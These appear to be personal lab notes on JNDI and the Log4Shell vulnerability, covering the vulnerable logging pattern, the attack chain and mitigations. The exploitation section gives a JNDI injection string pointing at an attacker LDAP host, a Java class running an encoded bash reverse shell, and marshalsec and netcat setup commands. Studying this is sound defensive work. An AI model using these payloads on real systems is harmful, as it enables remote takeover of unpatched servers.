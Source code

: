 # jndi-remote-execution

Author: Julien Bongars
Date: 2025-09-24 18:56:50
Path: /opt/development/cybersec/hacklas/notes/general/java/jndi-remote-execution.md

---

## JNDI Overview

### What is JNDI?

Java Naming and Directory Interface (JNDI) is a Java API that allows distributed applications to look up services in an abstract, resource-independent way.

### Common Use Cases

- **Database Connection Pooling**: Setting up connection pools on Java EE application servers
- **Service Discovery**: Applications can access resources using JNDI names like `java:comp/env/FooBarPool`
- **Environment Abstraction**: Hide implementation details from applications

### Advantages of JNDI

1. **Environment Independence**: Applications can use the same JNDI name across development, integration, test, and production environments
2. **Security**: Minimizes the number of people who need database credentials - only the application server needs to know
3. **Abstraction**: Applications don't need to know connection details, just the JNDI name

## Log4Shell Vulnerability (CVE-2021-44228)

### Attack Vector

Any user input that gets logged can potentially trigger the vulnerability through Log4j's message lookup feature.

### Vulnerable Code Pattern

```java
// Vulnerable logging patterns
logger.info("User login attempt: " + userInput);
logger.error("Invalid request from: " + clientData);
logger.warn("Processing failed for: " + formData);
```

### Exploitation Process

**1. Payload Injection**

```json
{
  "username": "admin",
  "password": "password",
  "remember": "${jndi:ldap://attacker-server.com:1389/Exploit}"
}
```

**2. Malicious Java Class**

```java
public class Exploit {
    static {
        try {
            // Reverse shell payload
            Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}");
        } catch (Exception e) {
            // Handle silently
        }
    }
}
```

### Attack Chain

1. **Setup malicious LDAP server** to serve exploit class
2. **Host malicious Java class** on HTTP server
3. **Inject JNDI payload** into application input
4. **Log4j processes payload** and connects to attacker's LDAP server
5. **LDAP server responds** with reference to malicious Java class
6. **Target downloads and executes** the malicious class
7. **Reverse shell established** back to attacker

### Tools and Setup

```bash
# Start malicious LDAP server
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://attacker-ip:8000/#Exploit"

# Serve malicious Java class
python3 -m http.server 8000

# Listen for reverse shell
nc -lvnp 4444
```

### Mitigation

- Update Log4j to version 2.17.0+
- Set system property: `log4j2.formatMsgNoLookups=true`
- Input validation and sanitization
- Network segmentation to prevent outbound LDAP connections

## References

- [Censys Blog: CVE-2021-44228 Log4j](https://censys.com/blog/cve-2021-44228-log4j)
- [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
